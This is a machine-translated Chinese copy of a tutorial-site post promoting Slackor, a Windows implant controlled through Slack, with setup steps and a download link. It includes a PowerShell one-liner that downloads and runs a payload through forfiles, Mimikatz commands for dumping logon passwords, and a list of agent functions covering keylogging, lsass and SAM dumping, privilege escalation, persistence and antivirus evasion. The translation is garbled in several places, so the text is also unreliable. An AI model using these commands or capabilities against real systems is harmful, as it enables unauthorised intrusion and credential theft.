 # Slackor:一个使用 Slack 作为命令和控制服务器的 Golang 植入物

> 原文：<https://kalilinuxtutorials.com/slackor-golang-implant-control-server/>

[![Slackor : A Golang Implant That Uses Slack As A Command & Control Server](img//1f2abbbc3a86c964c36a02f963fb2f7d.png "Slackor : A Golang Implant That Uses Slack As A Command & Control Server")](https://1.bp.blogspot.com/-E_h9ZktmRsE/XSLHWXZTsVI/AAAAAAAABOs/aSTUXqB4lccFPrfc5Db2UQ2DUX7dgPQ7wCLcBGAs/s1600/Slackor%2B-%2B2%25281%2529.png)

**Slackor** 是一个 golang 植入体，它使用 Slack 作为命令和控制服务器。该工具是作为概念验证发布的。在创建任何 Slack 应用程序之前，请务必阅读并理解 [Slack 应用程序开发者政策](https://api.slack.com/developer-policy)。

![](img//bb356fd668a39aeb6c3d31c3805231e8.png)

**设置**

**注:服务器是用 Python 3 写的**

为此，您需要:

*   宽松的工作空间
*   [用以下权限注册一个 app](https://api.slack.com/apps) :
    *   **频道:读取**
    *   **频道:历史**
    *   **频道:写**
    *   **文件:写:用户**
    *   **文件:读取**
*   创建一个机器人

此回购包含五个文件:

*   `**install.sh**`安装家属
*   `**setup.py**`创建松弛渠道、数据库和植入的脚本
*   Slackor 服务器，设计用于在 Linux 上运行
*   `**agent.go**`生成的植入物
*   `**requirements.txt**` Python 依赖项(自动安装)

要开始使用:

*   运行`**install.sh**`
*   运行`**setup.py**`
    *   从您的应用程序中提供 *OAuth 访问令牌*和 *Bot 用户 OAuth 访问令牌*

成功运行脚本后，将创建一个文件`agent.exe`。这将是一个 64 位的 Go 二进制包与 UPX。

在 Linux 主机上启动 server.py 之后，在目标 Windows 主机上执行`agent.exe`。

运行“stager”模块来生成一行程序和其他 droppers。

**powershell.exe iwr[URL]-o C:\ Users \ Public \[NAME]。exeforfiles.exe/p C:\ windows \ system32/m svchost.exe/C C:\ Users \ Public \[NAME]；超时 2；del C:\Users\Public\[NAME]。exe**

这将执行 InvokeWebRequest(PS v.3+)来下载有效载荷，使用一个 [LOLBin](https://lolbas-project.github.io/lolbas/Binaries/Forfiles/) 来执行它，然后一旦被杀死就删除自己。这是一个工作示例，但该命令可以调整为使用另一种下载方法或执行方法。

**又读-[冰箱:虚拟机自检，跟踪&调试](https://kalilinuxtutorials.com/icebox-virtual-machine-debugging/)**

**用法**

键入“help”或按[TAB]查看可用命令的列表。键入“help [COMMAND]”查看该命令的描述。

`(**Slackor**)`

*   **帮助**–显示帮助菜单
*   **互动**–与代理互动
*   **列表**–列出所有注册代理
*   **移除**–杀死并移除一个代理
*   **恢复**–向所有代理发送信号，以向服务器重新注册
*   **stager**–生成一行程序来下载并执行植入
*   **退出**–退出程序
*   **wipe files**–删除所有上传的空闲文件

一旦代理签入，您就可以与之交互。使用“交互[代理]进入代理提示。键入“help”或按[TAB]查看可用命令的列表。

`**(Slackor:AGENT)**`

*   **返回**–返回主菜单
*   **beacon**–由代理更改每次登记的时间间隔(默认为 5 秒)
*   **bypassuac**–尝试生成高完整性代理
*   **清理**–移除持续伪像
*   **剪贴板**–检索剪贴板的内容
*   **解密者**–试图解密 Windows Defender
*   **下载**–从代理下载文件到 Slackor 服务器
*   **duplicate**–使代理产生另一个自身调用
*   **get SYSTEM**–生成一个代理作为 NTAUTHORITY/SYSTEM
*   **帮助**–显示帮助菜单
*   **按键扫描**–启动代理上的按键记录程序
*   **杀死**–杀死代理
*   **小型转储**–从 lsass.exe 转储内存并下载
*   **persist**–通过在 ADS 中植入二进制文件来创建持久性
*   **SAM dump**–尝试转储 SAM 文件以进行离线哈希提取
*   **截图**–获取桌面截图并检索
*   **外壳代码**–执行 x64 原始外壳代码
*   **睡眠**–使代理睡眠一次(以秒为单位输入时间)
*   **sysinfo**–显示当前用户、操作系统版本、系统架构和 CPU 内核数量
*   **上传**–从 Slackor 服务器上传文件到代理
*   通过 HTTP/HTTPS 下载任意文件

**OPSEC 注意事项**

除了 TLS 传输加密之外，命令输出和下载的文件也经过 AES 加密。

在执行写入磁盘的任务之前，模块会向您发出警告。执行 shell 命令时，请注意 cmd.exe 将被执行。这可以在主机上监控。以下是几个不会执行 cmd.exe 的 OPSEC 安全命令:

*   **cat**–打印文件内容
*   **CD**–更改目录
*   **查找**–搜索目录文件名
*   **getip**–获取外部 ip 地址(发出 DNS 请求)
*   **主机名**–显示主机名
*   **ifconfig**–显示界面信息
*   **ls**–列出目录内容
*   **mkdir**–创建目录
*   **pwd**–打印当前工作目录
*   **RM**–删除文件
*   **rmdir**–删除目录
*   **whoami/getuid**–打印当前用户

**常见问题解答**

这对红队/圣灵测试安全吗？

是的，在某些条件下。当数据在传输过程中被加密时，代理包含用于解密的密钥。任何获得代理副本的人都可以对其进行逆向工程，并提取 API 密钥和 AES 密钥。任何危及或以其他方式获得工作区访问权限的人都可以检索其中的所有数据。因此，不建议针对多个组织重用基础架构。

**米米卡兹呢？**

该植入物没有内存密码转储功能。如果您需要登录密码，可以尝试以下方法:

**(Slackor: AGENT)小型转储**

这将自动提取密码与 Pypykatz。或者，您可以在 Windows 上使用 Mimikatz。

**>mimikatz.exe
米米卡兹# sekurlsa::Minidump lsassdump . DMP
米米卡兹# sekurlsa::logonPasswords**

**是跨平台吗？**

还没有。它还没有在各种系统上完全测试过。服务器设计为在 Kali Linux 上运行，代理设计为在 Windows 10 上运行。

它的伸缩性如何？

可伸缩性受到 Slack API 的限制。如果有多个代理，请考虑增加未使用的信标的信标间隔。

**它容易受到标准信标分析的攻击吗？**

目前每个信标有 20%的抖动内置，信标时间可以定制。只要没有接收到新的命令，每次代理签入请求和响应数据包的大小将大致相同。

当更好的方法是[y]时，你为什么做[x]?

我尽力了。鼓励减贫战略🙂

**被 AV 抓住了！**

内置的 HTA 舞台是由 [SpookFlare](https://github.com/hlldz/SpookFlare) 基于[demi gaise](https://github.com/nccgroup/demiguise)打造的。如果你想你的滴管不被钩住，你可能想去定制。内置滴管只是让你开始。

**信用:** [Gcat](https://github.com/byt3bl33d3r/gcat) 和[Twitter](https://github.com/PaulSec/twittor)。

[**Download**](https://github.com/Coalfire-Research/Slackor)